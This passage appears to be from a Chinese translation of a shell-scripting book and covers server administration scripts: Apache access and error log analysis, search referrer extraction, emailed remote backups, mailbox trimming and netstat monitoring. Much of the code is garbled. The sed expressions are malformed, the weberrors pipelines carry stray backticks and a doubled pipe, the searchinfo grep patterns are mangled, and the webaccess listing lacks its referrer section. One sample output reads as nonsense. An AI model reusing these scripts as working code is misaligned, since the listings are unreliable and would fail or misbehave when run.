if [ ! -f $timestamp ] ; then
    for filename in *
    do
        if [ -f "$filename" ] ; then
            count=$(( $count + 1 ))
        fi
    done
else
    count=$(find . -newer $timestamp -type f -print | wc -l)
fi

if [ $count -eq 0 ] ; then
    echo "$(basename $0): No files found in $localsource to sync with remote."
    exit 0
fi

echo "Making tarball archive file for upload"
tar -czf $tarballname ./*

# Done! Now let's switch to the sftpSYNC script.

exec sftpSYNC $sftpact $remotedir
```

Listing 9-11：`ssync`包装改造脚本

如果有必要，脚本会创建一个新的存档文件，并根据需要将所有文件（当然包括新的存档文件）上传到服务器，如 Listing 9-12 所示。

```text
$ ssync
Making tarball archive file for upload
Synchronizing: Found 2 files in local folder to upload.
Connecting to intuitive.com...
taylor@intuitive.com's password:
sftp> cd shellhacks/scripts
sftp> put -P "./AllFiles.tgz"
Uploading ./AllFiles.tgz to shellhacks/scripts/AllFiles.tgz
sftp> put -P "./ssync"
Uploading ./ssync to shellhacks/scripts/ssync
sftp> quit
Done. All files synchronized up with intuitive.com
```

Listing 9-12：运行`ssync`脚本

另一个进一步的优化是让`ssync`在工作日的每隔几个小时通过`cron`任务被调用，这样远程备份服务器上的文件就能在没有任何人工干预的情况下，隐形地与你的本地文件保持同步。

## 10 互联网服务器管理

管理 Web 服务器和服务的任务通常与设计和管理网站内容的工作完全分开。虽然前一章提供的工具主要面向 Web 开发人员和其他内容管理器，但本章将展示如何分析 Web 服务器日志文件、镜像网站以及监控网络健康状况。

### 探索 Apache `access_log`

如果你运行的是 Apache 或类似的采用通用日志格式（Common Log Format）的 Web 服务器，你可以使用`shell`脚本进行相当多的快速统计分析。在标准配置中，服务器会为站点写入`access_log`和`error_log`文件（通常在`/var/log`中，但这取决于系统）。如果你拥有自己的服务器，你绝对应该存档这些宝贵的信息。

表 10-1 列出了`access_log`文件中的字段。

**表 10-1：`access_log`文件中的字段值**

| 列 | 值 |
|---|---|
| 1 | 访问服务器的主机 IP |
| 2–3 | HTTPS/SSL 连接的安全信息 |
| 4 | 特定请求的日期和时区偏移 |
| 5 | 调用的方法 |
| 6 | 请求的 URL |
| 7 | 使用的协议 |
| 8 | 结果代码 |
| 9 | 传输的字节数 |
| 10 | 来源页（Referrer） |
| 11 | 浏览器标识字符串 |

`access_log`中的典型行如下所示：

```text
65.55.219.126 -- [04/Jul/2016:14:07:23 +0000] "GET /index.rdf HTTP/1.0" 301 310 "-" "msnbot-UDiscovery/2.0b (<http:search.msn.com/msnbot.htm>)"
```

结果代码（字段 8）为 301 表示该请求被视为成功。来源页（字段 10）指示用户在请求该页面之前访问的页面 URL。十年前，这里会是前一个页面的 URL；现在出于隐私原因，如你在这里看到的，它通常是`-`。

可以通过对日志文件进行行数统计来确定网站的点击量（hits），而文件条目的日期范围可以通过比较第一行和最后一行来确定。

```bash
$ wc -l access_log
7836 access_log
$ head -1 access_log ; tail -1 access_log
69.195.124.69 -- [29/Jun/2016:03:35:37 +0000] ...
65.55.219.126 -- [04/Jul/2016:14:07:23 +0000] ...
```

考虑到这些要点，Listing 10-1 中的脚本可以从 Apache 格式的`access_log`文件中生成许多有用的统计数据。该脚本要求我们在第 1 章中编写的`scriptbc`和`nicenumber`脚本位于`PATH`中。

#### 代码

```bash
#!/bin/bash
# webaccess--Analyzes an Apache-format access_log file, extracting
# useful and interesting statistics

bytes_in_gb=1048576

# You will want to change the following to match your own hostname
# to help weed out internally referred hits in the referrer analysis.
host="intuitive.com"

if [ $# -eq 0 ]; then
    echo "Usage: $(basename $0) logfile" >&2
    exit 1
fi

if [ ! -r "$1" ]; then
    echo "Error: log file $1 not found." >&2
    exit 1
fi

firstdate="$(head -1 "$1" | awk '{print $4}' | sed 's/\//')"
lastdate="$(tail -1 "$1" | awk '{print $4}' | sed 's/\//')"

echo "Results of analyzing log file $1"
echo ""
echo "    Start date: $(echo $firstdate| sed 's/:/ /')"
echo "    End date: $(echo $lastdate| sed 's/:/ /')"

hits="$(wc -l < "$1" | sed 's/[^[:digit:]]//g')"

echo ""
echo "    Hits: $(nicenumber $hits) (total accesses)"

pages="$(grep -ivE '(.gif|.jpg|.png)' "$1" | wc -l | sed 's/[^[:digit:]]//g')"

echo ""
echo "    Pageviews: $(nicenumber $pages) (hits minus graphics)"

totalbytes="$(awk '{sum+=$10} END {print sum}' "$1")"

/bin/echo -n " Transferred: $(nicenumber $totalbytes) bytes "

if [ $totalbytes -gt $bytes_in_gb ]; then
    echo "($(scriptbc $totalbytes / $bytes_in_gb) GB)"
elif [ $totalbytes -gt 1024 ]; then
    echo "($(scriptbc $totalbytes / 1024) MB)"
else
    echo ""
fi

# Now let's scrape the log file for some useful data.

echo ""
echo "The 10 most popular pages were:"

awk '{print $7}' "$1" | grep -ivE '(.gif|.jpg|.png)' | \
sed 's/\/\//g' | sort | \
uniq -c | sort -rn | head -10

echo ""

echo "The 10 most common referrer URLs were:"
```

Listing 10-1：`webcast`脚本

#### 工作原理

让我们将每个代码块视为一个独立的小脚本。例如，前几行通过简单地抓取文件第一行和最后一行的第四个字段来提取`firstdate`和`lastdate`。点击量是通过使用`wc`计算文件中的行数来得出的，而页面浏览量则是简单地从点击量中减去对图像文件（即扩展名为`.gif`、`.jpg`或`.png`的文件）的请求。传输的总字节数是通过对每行第 10 个字段的值求和，然后调用`nicenumber`以美观的方式呈现。

为了计算最受欢迎的页面，我们首先从日志文件中提取请求的页面，然后筛选掉任何图像文件。接着，我们使用`uniq -c`对每行唯一的内容进行排序并计算出现次数。最后，我们再次排序以确保出现次数最多的行排在前面。

请注意，我们进行了一定程度的标准化：`sed`的调用会去掉任何尾随斜杠，以确保`/subdir/`和`/subdir`被计为同一个请求。


与检索 10 个最热门页面的部分类似，提取来源页信息的部分从日志文件中提取字段 11，筛选掉来自当前主机的条目以及值为 `-` 的条目（当 Web 浏览器拦截来源页数据时发送的值）。然后，代码将结果传递给相同的 `sort|uniq -c|sort -rn|head -10` 序列，以获取 10 个最常见的来源页。

#### 运行脚本

要运行此脚本，请指定一个 Apache（或其他通用日志格式）日志文件的名称作为其唯一参数。

#### 结果

在典型日志文件上运行此脚本的结果非常有参考价值，如代码清单 10-2 所示。

```text
$ webaccess /web/logs/intuitive/access_log
Results of analyzing log file access_log

Start date: 01/May/2016 at 07:04:49
End date: 04/May/2016 at 01:39:04
```

点击量：7,839（总访问次数）

页面浏览量：2,308（点击量减去图形文件）

传输量：25,928,872,555 字节

最热门的 10 个页面为：

- 266 `/`
- 118 `/CsharpVulnJson.ova`
- 92 `/favicon.ico`
- 86 `/robots.txt`
- 57 `/software`
- 53 `/css/style.css`
- 29 `/2015/07/01/advanced-afl-usage.html`
- 24 `/opendiagnostics/index.php/OpenDiagnostics_Live_CD`
- 20 `/CsharpVulnSoap.ova`
- 15 `/content/opendiagnostics-live-cd`

最常见的 10 个引用来源 URL 为：

- 108 `"https://www.vulnhub.com/entry/csharp-vulnjson,134/#"`
- 33 `"http://volatileminds.net/2015/07/01/advanced-afl-usage.html"`
- 32 `"http://volatileminds.net/"`
- 15 `"https://www.volatileminds.net/"`
- 14 `"http://volatileminds.net/2015/06/29/basic-afl-usage.html"`
- 13 `"https://www.google.com"`
- 10 `"http://livecdlist.com/opendiagnostics-live-cd/"`
- 10 `"http://keywords-monitoring.com.try/try.php?u=http://volatileminds.net"`
- 8 `"http://www.volatileminds.net/index.php/OpenDiagnostics_Live_CD"`
- 8 `"http://www.volatileminds.net/blog/"`

代码清单 10-2：在 Apache 访问日志上运行 `webaccess` 脚本

#### 改进脚本

分析 Apache 日志文件的一个挑战是，有时两个不同的 URL 实际上指向同一个页面；例如，`/custer/` 和 `/custer/index.html` 是同一个页面。在计算最热门的 10 个页面时应该考虑到这一点。通过 `sed` 调用执行的转换已经确保了 `/custer` 和 `/custer/` 不会被分开处理，但要获知给定目录的默认文件名可能会稍微复杂一些（尤其是当这在 Web 服务器上是一个特殊配置时）。

你可以通过将引用来源 URL 裁剪为仅保留基础域名（例如 `slashdot.org`）来使最热门的 10 个引用来源更有用。接下来的脚本 #74 将探讨从引用来源字段中可获取的更多信息。下次你的网站被 “slashdotted”（指流量激增）时，你就没有理由不知道原因了！

### #74 理解搜索引擎流量

脚本 #73 可以提供指向你网站的一些搜索引擎查询的概览，但进一步的分析不仅能揭示哪些搜索引擎带来了流量，还能揭示通过搜索引擎访问你网站的用户输入了哪些关键字。这些信息对于了解你的网站是否被搜索引擎正确索引具有极高的价值。此外，它还可以为提高你在搜索引擎列表中的排名和相关性提供起点，尽管正如我们之前提到的，这些额外信息正逐渐被 Apache 和 Web 浏览器开发者弃用。代码清单 10-3 详细介绍了从 Apache 日志中检索此类信息的 shell 脚本。

#### 代码

```bash
#!/bin/bash
# searchinfo--Extracts and analyzes search engine traffic indicated in the
# referrer field of a Common Log Format access log

host="intuitive.com" # Change to your domain, as desired.
maxmatches=20
count=0
temp="/tmp/$(basename $0).$$"

trap "(rm -f $temp)" 0

if [ $# -eq 0 ] ; then
    echo "Usage: $(basename $0) logfile" >&2
    exit 1
fi
if [ ! -r "$1" ] ; then
    echo "Error: can't open file $1 for analysis." >&2
    exit 1
fi

for URL in $(awk '{ if (length($11) > 4) { print $11 } }' "$1" | \
grep -vE "^(\.$host|/$host)" | grep '?')
do
    searchengine="$(echo $URL | cut -d/ -f3 | rev | cut -d. -f1-2 | rev)"
    args="$(echo $URL | cut -d? -f2 | tr '&' '\n' | \
    grep -E '(\?qid=|"p"=query|item=ask|name=topic=)' | \
    sed -e 's/+/ /g' -e 's/%20/ /g' -e 's/"/"/g' | cut -d= -f2)"
    if [ -z "$args" ] ; then
        echo "$searchengine": $args >> $temp
    else
        # No well-known match, show entire GET string instead...
        echo "$searchengine" $(echo $URL | cut -d? -f2) >> $temp
    fi
    count="$(( $count + 1 ))"
done

echo "Search engine referrer info extracted from $1:"

sort $temp | uniq -c | sort -rn | head -$maxmatches | sed 's/^/ /g'

echo ""
echo Scanned $count entries in log file out of $(wc -l < "$1") total.

exit 0
```

代码清单 10-3：`searchinfo` 脚本

#### 工作原理

该脚本的主要 `for` 循环 ❶ 提取日志文件中所有具有有效引用来源 ❷ 且字符串长度大于 4、引用域名不匹配 `$host` 变量且引用字符串中包含 `?` 的条目，这表明用户执行了搜索操作。

随后，脚本尝试识别引用来源的域名和用户输入的搜索值 ❸。对数百个搜索查询的检查表明，常见的搜索网站使用少量的常见变量名。例如，在 Yahoo! 上搜索时，搜索字符串为 `p=pattern`。Google 和 MSN 使用 `q` 作为搜索变量名。`grep` 调用包含了 `p`、`q` 以及其他最常见的搜索变量名。

`sed` ❹ 的调用用于清理生成的搜索模式，将 `+` 和 `%20` 序列替换为空格并去掉引号，而 `cut` 命令则返回第一个等号之后的所有内容。换句话说，该代码仅返回搜索词。

紧随其后的条件语句测试 `args` 变量是否为空。如果为空（即查询格式不是已知格式），则这是一个我们尚未见过的搜索引擎，因此我们输出整个模式，而不是清理后的纯模式值。

#### 运行脚本

要运行此脚本，只需在命令行中指定 Apache 或其他通用日志格式（Common Log Format）的日志文件名（见代码清单 10-4）。

> **注意**：这是本书中最慢的脚本之一，因为它产生大量子 shell 来执行各种任务，所以如果运行时间较长，请不要感到惊讶。

#### 运行结果

```text
$ searchinfo /web/logs/intuitive/access_log
Search engine referrer info extracted from access_log:
    771
    4 online reputation management akado
    4 Names Hawaiian Flowers
    3 norwegian star
    3 disneyland pirates of the caribbean
    3 disney california adventure
    3 colorado railroad
    3 Cirque Du Soleil Masks
    2 www.basketbasketballcamp.com
    2 o logo
    2 hawaiian flowers
    2 disneyland pictures pirates of the caribbean
    2 cirque
    2 cirqu
    2 Voil%3%AO le %3cb%3ELogo du Cirque du Soleil%3c%2Fb%3e%21
    2 Tropical Flowers Pictures and Names
    2 Hawaiian Flowers
    2 Hawaii Waterfalls
    2 Downtown Disney Map Anaheim

Scanned 983 entries in log file out of 7839 total.
```

代码清单 10-4：在 Apache 日志上运行 `searchinfo` 脚本

#### 改进脚本

微调此脚本的一种方法是跳过极有可能不来自搜索引擎的引用 URL。为此，只需注释掉 ❶ 处的 `else` 子句。

另一种处理此任务的方法是搜索来自特定搜索引擎（作为第二个命令行参数输入）的所有命中，然后比较指定的搜索字符串。核心 `for` 循环将更改如下：

```bash
for URL in $(awk '{ if (length($11) > 4) { print $11 } }' "$1" | \
grep $2)
do
    args="$(echo $URL | cut -d? -f2 | tr '&' '\n' | \
    grep -E '(=("q"|= "sid"|= "id"|= "query"|= "item"|= "name"|= "topic"))' | \
    cut -d= -f2)"
    echo $args | sed -e 's/^/ /' -e 's/$/ /' -e 's/"//g' >> $temp
    count="$(( $count + 1 ))"
done
```

你还需要微调用法消息，以便提及新的第二个参数。同样地，由于 Web 浏览器（尤其是 Google）报告引用来源信息的方式发生了变化，此脚本最终将只报告空白数据。如你所见，在该日志文件的匹配条目中，有 771 条没有报告引用来源，因此没有关于关键字使用的有用信息。

### #75 探索 Apache `error_log`

正如第 235 页的脚本 #73 揭示了 Apache 或兼容 Apache 的 Web 服务器常规访问日志中有趣的统计信息一样，本脚本旨在从 `error_log` 文件中提取关键信息。

对于那些没有自动将日志拆分为独立 `access_log` 和 `error_log` 组件的 Web 服务器，你有时可以通过根据日志中每条记录的返回代码（第 9 字段）进行过滤，将中央日志文件拆分为这些组件：

```bash
awk '{if (substr($9,0,1) <= "3") { print $0 } }' apache.log > access_log
awk '{if (substr($9,0,1) > "3") { print $0 } }' apache.log > error_log
```

以 4 或 5 开头的返回代码表示失败（400 系列是客户端错误，500 系列是服务器错误），而以 2 或 3 开头的返回代码表示成功（200 系列是成功消息，300 系列是重定向）。

其他产生包含成功和错误记录的单一中央日志文件的服务器，会使用 `[error]` 字段值来标记错误消息条目。在这种情况下，可以使用 `grep '[error]'` 创建错误日志，使用 `grep -v '[error]'` 创建访问日志。

无论你的服务器是自动创建错误日志，还是你需要通过搜索包含 `[error]` 字符串的条目来手动创建，错误日志中的几乎所有内容都与访问日志的内容不同，包括日期的指定方式。

```text
$ head -1 error_log
[Mon Jun 06 08:05:36 2015] [error] [client 54.204.131.75] File does not exist: /var/www/vhosts/default/htdocs/clientaccesspolicy.xml
```

在访问日志中，日期被指定为一个不含空格的紧凑单字段值；而错误日志则占用五个字段。此外，访问日志采用一种一致的方案，即空格分隔条目中的单词/字符串位置始终标识特定字段，而错误日志中的条目则具有长度不一且含义不同的错误描述。仅检查这些描述值就能发现令人惊讶的差异，如下所示：

```text
$ awk '{print $9 " " $10 " " $11 " " $12 }' error_log | sort -u
File does not exist:
Invalid error redirection directive:
Premature end of script
execution failure for parameter
premature EOF in parsed
script not found or
malformed header from script
```

其中一些错误应该由人工检查，因为很难将它们回溯到导致错误的 Web 页面。

代码清单 10-5 中的脚本专注于最常见的问题——特别是 `File does not exist`（文件不存在）错误——然后转而导出所有不匹配已知错误情况的其他错误日志条目。

#### 代码


```bash
#!/bin/bash
# weberrors--扫描 Apache error_log 文件，报告
# 最重要的错误，然后列出额外的条目

temp="/tmp/$(basename $0).$$"

# 为了使此脚本运行效果最佳，请针对
# 自己的安装环境自定义以下三行。

htdocs="/usr/local/etc/httpd/htdocs/"
myhome="/usr/home/taylor/"
cgibin="/usr/local/etc/httpd/cgi-bin/"

sedstr="/^ /g;s|$htdocs|[htdocs] |;s|$myhome|[homedir] "
sedstr="$sedstr;s|$cgibin|[cgi-bin] | "

screen="(File does not exist|Invalid error redirect|premature EOF"
screen="$screen|Premature end of script|script not found"

length=5 	# 每类要显示的条目数

checkfor()
{
	grep "($2):" "$1" | awk '{print $NF}' \
	| sort | uniq -c | sort -rn | head -$length | sed "$sedstr" > $temp

	if [ $(wc -l < $temp) -gt 0 ] ; then
		echo " "
		echo "$2 errors:"
		cat $temp
	fi
}

trap "$(which rm) -f $temp" 0

if [ "$1" = "-l" ] ; then
	length=$2; shift 2
fi

if [ $# -ne 1 -o ! -r "$1" ] ; then
	echo "Usage: $(basename $0) [-l len] error_log" >&2
	exit 1
fi

echo Input file $1 has $(wc -l < "$1") entries.

start="$(grep -E '\[.*:.*:.*\]' "$1" | head -1 \
	| awk '{print $1" "$2" "$3" "$4" "$5 "}")"
end="$(grep -E '\[.*:.*:.*\]' "$1" | tail -1 \
	| awk '{print $1" "$2" "$3" "$4" "$5 "}")"

/bin/echo -n "Entries from $start to $end"

echo ""

### Check for various common and well-known errors:

checkfor "$1" "File does not exist"
checkfor "$1" "Invalid error redirection directive"
checkfor "$1" "Premature EOF"
checkfor "$1" "Script not found or unable to stat"
checkfor "$1" "Premature end of script headers"

grep -vE "^screen" "$1" | grep "\[error\]" | grep "\[client \" \
| sed 's/\\\[error\]/\'/ ' | cut -d` -f2 | cut -d` -f4- \
| sort | uniq -c | sort -rn | sed 's/^/ /' | head -length > $temp

if [ $(wc -l < $temp) -gt 0 ] ; then
    echo ""
    echo "Additional error messages in log file:"
    cat $temp
fi

echo ""
echo "And non-error messages occurring in the log file:"

grep -vE "^screen" "$1" | grep -v "\[error\]" | \
| sort | uniq -c | sort -rn \
| sed 's/^/ /' | head -length

exit 0
```

代码清单 10-5：`weberrors` 脚本

## 工作原理

该脚本的工作方式是通过扫描错误日志中在调用 `checkfor` 函数时指定的五种错误，并使用 `awk` 调用 `$NF`（代表该特定输入行中的字段数）来提取每行错误信息的最后一个字段。这些输入随后通过 `sort | uniq -c | sort -rn` 处理，以便轻松提取该类问题中最常出现的错误。

为了确保仅显示有匹配项的错误类型，每次特定的错误搜索结果都会被保存到临时文件中，然后在输出消息之前测试该文件是否为空。这一切都通过脚本顶部的 `checkfor()` 函数简洁地实现。

脚本的最后几行识别了脚本未专门检查但仍符合标准 Apache 错误日志格式的最常见错误。➊ 处的 `grep` 调用是一个较长管道的一部分。

然后，脚本识别了脚本未专门检查且不符合标准 Apache 错误日志格式的最常见错误。同样，➋ 处的 `grep` 调用也是一个较长管道的一部分。

## 运行脚本

该脚本应将标准 Apache 格式的错误日志路径作为其唯一的参数传递，如代码清单 10-6 所示。如果使用 `-l length` 参数调用，它将显示每种错误类型的 `length` 个匹配项，而不是默认的五个条目。

## 运行结果

```text
$ weberrors error_log
Input file error_log has 768 entries.
Entries from [Mon Jun 05 03:35:34 2017] to [Fri Jun 09 13:22:58 2017]

File does not exist errors:
- 94 /var/www/vhosts/default/htdocs/mnews.htm
- 36 /var/www/vhosts/default/htdocs/robots.txt
- 15 /var/www/vhosts/default/htdocs/index.rdf
- 10 /var/www/vhosts/default/htdocs/clientaccesspolicy.xml
- 5 /var/www/vhosts/default/htdocs/phpMyAdmin

Script not found or unable to stat errors:
- 1 /var/www/vhosts/default/cgi-binphp5
- 1 /var/www/vhosts/default/cgi-binphp4
- 1 /var/www/vhosts/default/cgi-binphp.cgi
- 1 /var/www/vhosts/default/cgi-binphp-cgi
- 1 /var/www/vhosts/default/cgi-binphp

Additional error messages in log file:
- 1 script '/var/www/vhosts/default/htdocs/wp-trackback.php' not found or unable to stat
- 1 script '/var/www/vhosts/default/htdocs/sprawdza.php' not found or unable to stat
- 2 script '/var/www/vhosts/default/htdocs/phpmyadmintting.php' not found or unable to stat

And non-error messages occurring in the log file:
- 6 /usr/lib64/python2.6/site-packages/mod_python/importer.py:32: DeprecationWarning: the md5 module is deprecated; use hashlib instead
- 6 import md5
- 3 [Sun Jun 25 03:35:34 2017] [warn] RSA server certificate CommonName (CN) 'Parallels Panel' does NOT match server name!
- 1 sh: /usr/local/bin/zip: No such file or directory
- 1 sh: /usr/local/bin/unzip: No such file or directory
```

代码清单 10-6：在 Apache 错误日志上运行 `weberrors` 脚本

# #76 使用远程存档避免灾难

无论你是否拥有全面的备份策略，使用独立的异地存档系统备份一些关键文件都是一个很好的保险策略。即使你只备份一个包含所有客户地址、发票甚至爱人邮件的关键文件，偶尔进行一次异地存档也能在出乎意料的情况下救你于水火之中。

这听起来比实际情况要复杂，因为正如你在代码清单 10-7 中将看到的，“存档”实际上就是发送到远程邮箱的一个文件，这个邮箱甚至可以是 Yahoo! 或 Gmail 邮箱。文件列表保存在一个单独的数据文件中，并允许使用 shell 通配符。文件名可以包含空格，正如你将看到的，这会让脚本变得相当复杂。

## 代码

```bash
#!/bin/bash
# remotebackup--获取文件和目录列表，构建单个
# 压缩存档，然后将其发送到远程存档站点
# 以安全保存。它旨在每晚为关键用户文件运行，
# 但不能替代更严谨的备份方案。

outfilename="/tmp/rb.$$.tgz"
outfnamefont="backup.$(date +%y%m%d).tgz"
infilename="/tmp/rb.$$.in"

trap "$(which rm) -f \$outfile \$infile" 0

if [ $# -ne 2 -a $# -ne 3 ]; then
    echo "Usage: $(basename $0) backup-file list remoteaddr {targetdir}" >&2
    exit 1
fi

if [ ! -s "$1" ]; then
    echo "Error: backup list $1 is empty or missing" >&2
    exit 1
fi

# 扫描条目并构建固定的 infile 列表。这将展开通配符
# 并用反斜杠转义文件名中的空格，产生
# 变化："this file" 变为 `this\ file`，因此不需要引号。

while read entry; do
    echo "$entry" | sed -e 's/ /\\ /g' >> $infile
done < "$1"

# 构建存档、对其进行编码并发送的实际工作

tar czf - $(cat $infile) | \
uuencode $outfilename | \
mail -s "Backup archive for $(date)" "$2"

echo "Done. $(basename $0) backed up the following files:"
sed 's/^/ / ' $infile
/bin/echo -n "and mailed them to $2 "

if [ ! -z "$3" ]; then
    echo "with requested target directory $3"
else
    echo ""
fi

exit 0
```

代码清单 10-7：`remotebackup` 脚本

## 工作原理

在进行基础有效性检查后，脚本会处理包含关键文件列表的文件（作为第一个命令行参数提供），以确保文件名中嵌入的空格能在 `while` 循环中正常工作。它通过在每个空格前加上反斜杠来实现这一点。然后，它使用 `tar` 命令构建存档，由于 `tar` 缺乏从标准输入读取文件列表的能力，因此必须通过 `cat` 调用来提供文件名。

`tar` 调用会自动压缩存档，随后使用 `uuencode` 以确保生成的存档数据文件可以通过电子邮件成功发送而不会损坏。最终结果是远程地址收到一封电子邮件，其中包含 uuencode 编码的 tar 存档作为附件。

> `uuencode` 程序对二进制数据进行封装，使其能够安全地通过电子邮件系统传输而不会被损坏。详情请参阅 `man uuencode`。

## 运行脚本

该脚本需要两个参数：包含要存档和备份的文件列表的文件名，以及压缩且 uuencode 编码后的存档文件的目标电子邮件地址。文件列表可以像这样简单：

```text
$ cat filelist
*.sh
*.html
```

## 运行结果

代码清单 10-8 详细介绍了运行 `remotebackup` shell 脚本来备份当前目录下所有 HTML 和 shell 脚本文件，然后打印结果的过程。

```text
$ remotebackup filelist taylor@intuitive.com
Done. remotebackup backed up the following files:
    *.sh
    *.html
and mailed them to taylor@intuitive.com
$ cd /web
$ remotebackup backuplist taylor@intuitive.com mirror
```

完成。`remotebackup` 已备份以下文件：

ourecopass

并将其发送至 taylor@intuitive.com，目标目录为请求的 mirror。

代码清单 10-8：运行 `remotebackup` 脚本以备份 HTML 和 shell 脚本文件

## 改造脚本

首先，如果你使用的是现代版本的 `tar`，你会发现它具有从标准输入（stdin）读取文件列表的能力（例如，GNU 的 `tar` 有一个 `-T` 标志用于从标准输入读取文件列表）。在这种情况下，可以通过更新向 `tar` 提供文件列表的方式来缩短脚本。

随后，文件存档可以被解包或直接保存，并每周运行一个邮箱修剪脚本，以确保邮箱不会变得过大。代码清单 10-9 详细介绍了一个示例修剪脚本。

```bash
#!/bin/bash
# trimmailbox--一个简单的脚本，用于确保用户的邮箱中
# 仅保留最近的四条消息。适用于 Berkeley Mail
# (即 Mailx 或 mail)--其他邮件客户端需要进行修改！

keep=4 # 默认情况下，我们只保留最近的四条消息。

totalmsgs=$(echo 'x' | mail | sed -n '2p' | awk '{print $2}')

if [ $totalmsgs -lt $keep ]; then
    exit 0   # 无需操作
fi

topmsg=$(( $totalmsgs - $keep ))

mail > /dev/null << EOF
di ~$topmsg
q
EOF

exit 0
```

代码清单 10-9：`trimmailbox` 脚本，与 `remotebackup` 脚本配合使用！

这个简洁的脚本会删除邮箱中除最近几条（`$keep`）以外的所有消息。显而易见，如果你使用 Hotmail 或 Yahoo! Mail 等服务进行存档存储，此脚本将无法工作，你必须偶尔登录手动修剪。

# #77 监控网络状态

Unix 中最令人困惑的管理实用程序之一就是 `netstat`，这很遗憾，因为它提供了关于网络吞吐量和性能的大量有用信息。使用 `-s` 标志，`netstat` 会输出计算机支持的每种协议的大量信息，包括 TCP、UDP、IPv4/v6、ICMP、IPsec 等。对于典型配置，其中大多数协议都无关紧要；通常你想检查的协议是 TCP。此脚本分析 TCP 协议流量，确定数据包传输失败的百分比，并在任何值超出范围时发出警告。

将网络性能分析作为长期性能的快照是有用的，但更好的分析数据方法是观察趋势。如果你的系统在传输中经常出现 1.5% 的丢包，而过去三天该率跃升至 7.8%，那么问题正在酝酿之中，需要进行更详细的分析。

因此，此脚本分为两部分。第一部分（如代码清单 10-10 所示）是一个简短的脚本，旨在每 10 到 30 分钟运行一次，将关键统计数据记录在日志文件中。第二个脚本（代码清单 10-11）解析日志文件，报告典型性能以及任何随时间增加的异常或其他数值。

> **警告** 某些版本的 Unix 无法直接运行此代码（尽管我们已确认它在 OS X 上可以直接运行！）。事实证明，Linux 和 Unix 版本的 `netstat` 命令在输出格式（许多细微的空格变化或轻微的拼写差异）上存在较大差异。将 `netstat` 输出标准化本身就是一个很棒的脚本练习。

## 代码


```bash
#!/bin/bash
# getstats--"每 'n' 分钟，抓取 netstats 值 (通过 crontab)

logfile="/Users/taylor/.netstatlog"  # 根据你的配置进行修改。
temp="/tmp/getstats.$$.tmp"

trap "$(which rm) -f \$temp" 0

if [ ! -e \$logfile ] ; then    # 第一次运行？
    touch \$logfile
fi

( netstat -s -p tcp > \$temp

# 第一次运行此脚本时请检查你的日志文件：某些版本的 netstat
# 会报告多行，这就是为什么这里使用了 "| head -1"。
sent=$(grep 'packets sent' \$temp | cut -d ' ' -f1 | sed \
    's/[^[:digit:]]//g' | head -1)
resent=$(grep 'retransmitted' \$temp | cut -d ' ' -f1 | sed \
    's/[^[:digit:]]//g')
received=$(grep 'packets received' \$temp | cut -d ' ' -f1 | \
    sed 's/[^[:digit:]]//g')
dupacks=$(grep 'duplicate acks' \$temp | cut -d ' ' -f1 | \
    sed 's/[^[:digit:]]//g')
outoforder=$(grep 'out-of-order packets' \$temp | cut -d ' ' -f1 | \
    sed 's/[^[:digit:]]//g')
connectreq=$(grep 'connection requests' \$temp | cut -d ' ' -f1 | \
    sed 's/[^[:digit:]]//g')
connectacc=$(grep 'connection accepts' \$temp | cut -d ' ' -f1 | \
    sed 's/[^[:digit:]]//g')
retmout=$(grep 'retransmit timeouts' \$temp | cut -d ' ' -f1 | \
    sed 's/[^[:digit:]]//g')

/bin/echo -n "time=$(date +%s);"
/bin/echo -n "snt=$sent;res=$sent;re=$resent;rec=$received;dup=$dupacks;"
/bin/echo -n "oo=$outoforder;creq=$connectreq;cacc=$connectacc;"
echo "reto=$retmout"

) >> $logfile

exit 0
```

Listing 10-10：getstats 脚本

第二个脚本（如 Listing 10-11 所示）分析 `netstat` 历史日志文件。

```bash
#!/bin/bash
# netperf--分析 netstat 运行性能日志，识别
# 重要结果和趋势

log="/Users/taylor/.netstatlog"  # 根据你的配置进行修改。
stats="/tmp/netperf.stats.$$"
awktmp="/tmp/netperf.awk.$$"

trap "$(which rm) -f $awktmp $stats" 0

if [ ! -r $log ]; then
    echo "Error: can't read netstat log file $log" >&2
    exit 1
fi

# 首先，报告日志文件中最后一条记录的基本统计数据...

eval $(tail -1 $log)  # 所有值都转换为 shell 变量。

rep=$(scriptbc -p 3 re/$snt\*100)
repn=$(scriptbc -p 4 re/$snt\*10000 | cut -d. -f1)
repn=$(($repn / 100))
retop=$(scriptbc -p 3 reto/$snt\*100)
retopn=$(scriptbc -p 4 reto/$snt\*10000 | cut -d. -f1)
retopn=$(($retopn / 100))
dupp=$(scriptbc -p 3 dup/$rec\*100)
duppn=$(scriptbc -p 4 dup/$rec\*10000 | cut -d. -f1)
duppn=$(($duppn / 100))
oop=$(scriptbc -p 3 oo/$rec\*100)
oopn=$(scriptbc -p 4 oo/$rec\*10000 | cut -d. -f1)
oopnn=$(($oopn / 100))

echo "Netstat is currently reporting the following:"

/bin/echo -n " $snt packets sent, with $re retransmits ($rep%) "
echo " and $reto retransmit timeouts ($retop%)"
/bin/echo -n " $rec packets received, with $dup dupes ($dupp%)"
echo " $oo out of order ($oop%)"
echo " $creq total connection requests, of which $cacc were accepted"
echo ""
```

### 现在让我们看看是否有需要标记的重要问题

```bash
if [ $repn -ge 5 ]; then
    echo "*** Warning: Retransmits of >= 5% indicates a problem "
    echo "(gateway or router flooded?)"
fi

if [ $retopn -ge 5 ]; then
    echo "*** Warning: Transmit timeouts of >= 5% indicates a problem "
    echo "(gateway or router flooded?)"
fi

if [ $duppn -ge 5 ]; then
    echo "*** Warning: Duplicate receives of > 5% indicates a problem "
    echo "(probably on the other end)"
fi

if [ $oopn -ge 5 ]; then
    echo "*** Warning: Out of orders of >= 5% indicates a problem "
    echo "(busy network or router/gateway flood)"
fi
```

### 现在让我们看看一些历史趋势

```bash
echo "Analyzing trends..."

while read logline ; do
    eval "$logline"
    rep2="$(scriptbc -p 4 $re / $snt \* 10000 | cut -d. -f1)"
    retop2="$(scriptbc -p 4 $reto / $snt \* 10000 | cut -d. -f1)"
    dup2="$(scriptbc -p 4 $dup / $rec \* 10000 | cut -d. -f1)"
    oop2="$(scriptbc -p 4 $oo / $rec \* 10000 | cut -d. -f1)"
    echo "$rep2 $retop2 $dup2 $oop2" >> $stats
done < $log

echo ""
```

### 现在计算一些统计数据并将其与当前值进行比较

```bash
cat << "EOF" > $awktmp
    { rep += $1; retop += $2; dupp += $3; oop += $4 }
    END { 
        rep = rep / 100; retop = retop / 100; dupp = dupp / 100; oop = oop / 100; 
        print "reps="int(rep/NR) ",retops="int(retop/NR) \
        ";dupps="int(dupp/NR) ",oops="int(oop/NR) } 
